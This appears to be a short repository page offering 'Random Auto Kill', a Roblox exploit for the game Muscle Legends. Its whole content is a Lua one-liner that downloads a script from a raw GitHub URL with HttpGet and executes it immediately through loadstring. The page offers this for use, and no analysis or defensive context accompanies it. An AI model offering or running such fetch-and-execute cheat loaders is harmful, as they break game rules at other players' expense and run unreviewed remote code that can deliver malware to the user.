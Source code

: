 # Random Auto Kill ⬇️
**disclaimer:**
1. this is for muscle legends only
2. for roblox: exploit
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/Pxrson/auto-kill/refs/heads/main/idk.lua",true))()
```
